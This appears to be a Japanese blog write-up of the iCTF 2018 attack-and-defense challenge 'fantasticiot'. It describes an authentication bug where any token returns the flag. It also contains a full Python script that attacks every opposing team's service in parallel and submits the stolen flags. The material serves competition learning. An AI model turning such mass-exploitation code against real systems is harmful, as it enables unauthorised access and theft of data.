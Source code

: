 ```yaml
---
layout: post
alias: "/blog/2018/03/17/ictf-2018-fantasticiot/"
title: "iCTF 2018: Fantasticiot"
date: "2018-03-17T16:45:46+09:00"
tags: [ "ctf", "writeup", "ictf", "attack-and-defense" ]
---
```


-   <https://ictf2018.net/>
-   <https://scoreboard.ictf2018.net/#/scores>

A&Dだと気付いたので参加した回。
順位が上のチームからしか攻撃点が得られないわりに点差が開かないため「最終tickまで順位調整しつつ潜伏しておいて最後にまとめてflag提出」が有効に見えた。
1位のチームはscoreboard hackを疑いたくなる点数取ってた。

## solution

動いてるbinaryをrevすると入力がjsonであることが分かる。特に以下の4つを受け入れる。
op `getflag` に存在する `token` field はおそらく一致判定が必要なものであるが、これが何であれ結果が返ってきてしまうバグがある。他は見なくてよかった。

``` json
{
    "service": "flag",
    "op": "getflag",
    "id": "${ID}",
    "token": "${TOKEN}"
}
```

``` json
{
    "service": "flag",
    "op": "setflag",
    "id": "${ID}",
    "token": "${TOKEN}",
    "flag": "${FLAG}"
}
```

``` json
{
    "service": "fridge",
    "op": "addfridge",
    ...
}
```

``` json
{
    "service": "fridge",
    "op": "getfridge",
    ...
}
```

## implementation

与えられた `hack_the_planet.py` を修正。


並列化しないとtimeout待ちで遅い。

``` python
#!/usr/bin/env python2

# This code was written 10 hours before the competition, yikes
# Any bugs are your problem

import socks # pip install PySocks
import socket
socks.setdefaultproxy(socks.PROXY_TYPE_SOCKS5, '127.0.0.1', 4444)
socket.socket = socks.socksocket

from pwn import * # pip install pwntools
from swpag_client import Team # pip install swpag_client
import time
import concurrent.futures
import sys

team = Team(None, "SazPO4ahE9QQqQ21ryBe8UEL017vis7t")

def team_ip(team_host):
    # 172.31.129.1 (team1) ... 172.31.129.254 (team254) ... 172.31.130.1 (team255) ...
    team_number = int(team_host[4:])
    minor = ((team_number - 1) % 254) + 1
    major = (team_number / 255) + 129
    return '172.31.{major}.{minor}'.format(major=major, minor=minor)

import json
def pwn_fantasticiot(conn, flag_id):
    payload = {
        'service': 'flag',
        'op': 'getflag',
        'id': flag_id,
        'token': '',
    }
    conn.sendline(json.dumps(payload))
    result = json.loads(conn.recvline())
    print result
    return result['flag']

def attack_fantasticiot(ip, port, flag_id):
    try:
        with remote(ip, port, timeout=1) as conn:
            if service['service_name'] == u'fantasticiot':
                flag = pwn_fantasticiot(conn, flag_id)
            else:
                assert False
        result = team.submit_flag([ flag ])
        service_flag_ids[service['service_name']].add(flag_id)
        print("HACKED", flag, result)
    except Exception as e:
        print("Error connecting to", target['team_name'], target['hostname'], ip, port)
        print(e)

services = team.get_service_list()
service_flag_ids = dict()
while True:
    for service in services:
        if service['service_name'] != u'fantasticiot':
            continue
        print("Going to attack", service['service_name'])
        if service['service_name'] not in service_flag_ids:
            service_flag_ids[service['service_name']] = set()
        targets = team.get_targets(service['service_id'])
        with concurrent.futures.ThreadPoolExecutor() as executor:
            for target in targets:
                flag_id = target['flag_id']
                ip = team_ip(target['hostname'])
                port = target['port']
                if flag_id not in service_flag_ids[service['service_name']]:
                    service_flag_ids[service['service_name']].add(flag_id)
                    executor.submit(attack_fantasticiot, ip, port, flag_id)

    time.sleep(10) # DOS is against the rules
```
